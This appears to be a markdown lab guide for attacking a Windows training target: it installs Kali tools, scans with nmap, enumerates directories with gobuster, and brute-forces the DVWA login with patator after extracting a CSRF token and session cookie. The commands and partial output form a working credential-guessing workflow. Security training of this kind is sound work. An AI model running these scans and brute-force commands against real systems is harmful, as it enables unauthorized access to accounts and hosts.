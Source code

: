 # Hack Windows machine

![Windows Hack](../assets/windows-hack.png)

- login to your Kali machine

```bash
ssh kali@<kali-public-ip-address>
```

- install some additional packages

```bash
sudo apt update
sudo apt install -y wordlists gobuster dirsearch metasploit-framework golang patator
```

## Port scanning

- scan your windows target with nmap

nmap -A <windows-privat-ip-address>

## dir buster

gobuster dir -u http://<windows-privat-ip-address>:8080 -w /usr/lib/python3/dist-packages/dirsearch/db/dicc.txt -q

## brute force login

- get a valid `user_token` and save it in the CSRF variable

```bash
CSRF=$(curl -s -c dvwa.cookie "<windows-privat-ip-address>:8080/DVWA/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
```

- get a valid session id

```bash
SESSIONID=$(grep PHPSESSID dvwa.cookie | cut -d $'\t' -f7)
```

- execute the patator brute force tool to get valid credentials

```bash
patator http_fuzz 1=/usr/share/wordlists/metasploit/http_default_users.txt 0=/usr/share/wordlists/metasploit/http_default_pass.txt --threads=8 timeout=1 --rate-limit=1 url="http://<windows-privat-ip-address>:8080/DVWA/login.php" method=POST body="username=FILE1&password=FILE0&user_token=${CSRF}&Login=Login" header="Cookie: PHPSESSID=${SESSIONID}" -x ignore:fgrep=login.php -x quit:fgrep=index.php follow=0 accept_cookie=0

09:01:15 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.10 at 2022-06-03 09:01 UTC
09:01:15 patator    INFO -                                                                              
09:01:15 patator    INFO - code size:clen       time | candidate                          |   num | mesg
```